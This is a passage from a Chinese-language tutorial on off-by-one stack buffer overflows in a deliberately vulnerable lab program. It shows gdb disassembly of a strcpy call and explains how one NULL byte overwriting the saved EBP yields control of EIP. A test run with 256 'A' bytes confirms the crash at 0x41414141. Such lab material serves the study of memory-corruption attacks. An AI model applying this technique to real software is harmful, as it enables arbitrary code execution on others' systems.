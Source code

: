 ```
 0x08048480 <+9>: mov 0x8(%ebp),%eax           //bar arg
 0x08048483 <+12>: mov %eax,0x4(%esp)          //strcpy arg2
 0x08048487 <+16>: lea -0x100(%ebp),%eax       //buf
 0x0804848d <+22>: mov %eax,(%esp)             //strcpy arg1
 0x08048490 <+25>: call 0x8048370 <strcpy@plt> //call strcpy
 //Function Epilogue
 0x08048495 <+30>: leave                       //unwind stack space + restore ebp
 0x08048496 <+31>: ret                         //return
End of assembler dump.
(gdb)
```
堆栈布局：  
![](../pictures/stackoffbyone1.png)  



前面讲到，用户输入了256字节大小的数据，NULL字节就会覆盖foo的EBP的LSB。所以当存储于目标缓冲区‘buf’正上方的foo的EBP被单个NULL字节覆盖时，EBP就会由0xbffff2d8 变为0xbffff200。细看堆栈布局图，我们会发现栈地址0xbffff200就是目标缓冲区‘buf’的一部分，而既然用户输入值已经被复制进了这个目标缓冲区，那么攻击者就能得到这个栈地址(0xbffff200)的控制权，同时也得到了EIP的控制权，从而借此实现任意代码执行。我们来发送一串大小为256字节的“A”进行测试。    

测试第一步：EBP覆盖后出现返回地址覆盖是否有可能？    

``` 
(gdb) r `python -c 'print "A"*256'`
Starting program: /home/sploitfun/lsploits/new/obo/stack/vuln `python -c 'print "A"*256'`
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```
上述输出结果显示，EBP覆盖会让我们得到EIP的控制权。  
